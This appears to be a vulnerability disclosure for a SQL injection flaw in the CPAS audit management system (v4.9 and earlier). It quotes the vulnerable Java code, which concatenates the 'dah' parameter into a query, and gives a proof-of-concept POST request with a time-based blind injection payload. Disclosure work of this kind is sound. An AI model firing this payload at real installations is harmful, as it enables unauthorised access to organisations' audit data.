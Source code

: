 # CPAS-bug
CPAS audit management information system has SQL injection vulnerability

# Beijing YouDataSum Technology Co., Ltd.
domain: http://youdatasum.com
<img width="1474" height="844" alt="图片" src="https://github.com/user-attachments/assets/3e165cf6-1640-445a-be76-c403a26f08ef" />

# Affected versions
```
<=v4.9
```

# Vulnerability code analysis

com/yonyou/aco/cpas/list/web/CpasListController.java  line: 1545
```
@RequestMapping({"/findArchiveReportByDah"})
@ResponseBody
public DataGridView<Map<String, String>> findArchiveReportByDah(@RequestParam(value = "pageNum", defaultValue = "0") int pageNum, @RequestParam(value = "pageSize", defaultValue = "10") int pageSize, @RequestParam(value = "sortName", defaultValue = "") String sortName, @RequestParam(value = "sortOrder", defaultValue = "") String sortOrder, @RequestParam(value = "dah", defaultValue = "") String dah) {
	DataGridView<Map<String, String>> page = new DataGridView<>();
	if (pageNum != 0) {
		try {
			pageNum /= pageSize;
		} catch (Exception e) {
			e.printStackTrace();
		}
	}
	PageResult<Map<String, String>> pages = this.cpasListService.findArchiveReportByDah(pageNum + 1, pageSize, sortName, sortOrder, dah);
	if (pages != null) {
		page.setRows(pages.getResults());
		page.setTotal(pages.getTotalrecord());
	}
	return page;
}
```

com/yonyou/aco/cpas/list/service/impl/CpasListServiceImpl.java  line: 8763
```
@Override // com.yonyou.aco.cpas.list.service.ICpasListService
public PageResult<Map<String, String>> findArchiveReportByDah(int pageNum, int pageSize, String sortName, String sortOrder, String dah) {
	StringBuilder sb = new StringBuilder();
	sb.append("select c.ywmc_,c.ywmcName_,a.* from fd_cpashbggdsq c ");
	sb.append(" left join bpm_ru_biz_info b on c.id = b.ID_ ");
	sb.append(" left join FD_CPASbglb a on c.id = a.biz_id ");
	sb.append(" where b.DR_ = 'N' and b.STATE_ = '2' and c.dah = '" + dah + "' ");
	sb.append(" ORDER BY c.ts DESC");
	return this.cpasListDao.getPageData(pageNum, pageSize, sb.toString());
}
```

The CpasListServiceImpl.java file contains concatenated SQL statements, resulting in SQL injection

POC:
```
POST /cpasm4/cpasList/findArchiveReportByDah HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

dah=0' AND (SELECT 6451 FROM (SELECT(SLEEP(5)))oufm) AND 'lRBm'='lRBm
```

<img width="895" height="290" alt="图片" src="https://github.com/user-attachments/assets/be5366e0-1278-4eef-9786-f1b0cd4b04b9" />
